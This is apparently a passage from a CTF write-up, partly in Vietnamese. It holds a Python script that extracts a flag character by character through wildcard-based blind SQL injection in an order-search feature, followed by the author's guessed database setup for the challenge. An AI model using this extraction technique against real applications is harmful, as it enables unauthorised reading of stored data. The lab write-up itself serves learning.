 ```python
    
def is_true_char(search_text):
    response_text = search_order_history(search_text)
    if "<td>1</td>" in response_text and "<td>FLAG</td>" in response_text:
        return True
    return False

def finding_flag():
    flag = "HOLACTF{"
    while True:
        found_char = False
        for char in CHAR_SET:
            test_text = flag + char + "%"
            if(is_true_char(test_text)):
                flag += char
                found_char = True
                print(f"[+] Found character: {char} | Current flag : {flag}")
                break
        if not found_char:
            break
    return flag

if __name__ == "__main__":
    FLAG = finding_flag()
    print(f"------------------FLAG is: {FLAG}-------------------------")
```

==>THE END

### Do bài này được phân loại là gray-box nên có thể source code không đầy đủ, theo mình đoán thì ở trong database.py gàn ```init_db()``` cần thêm:     
```python
cursor.execute("""
CREATE TABLE flag_table_secret (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
    flag_value TEXT NOT NULL
    )
""")
cursor.execute("INSERT INTO flag_table_secret (flag_value) VALUES (?)", ("HOLACTF{SQL_inj3cTi0n_is_3asY}",))
```
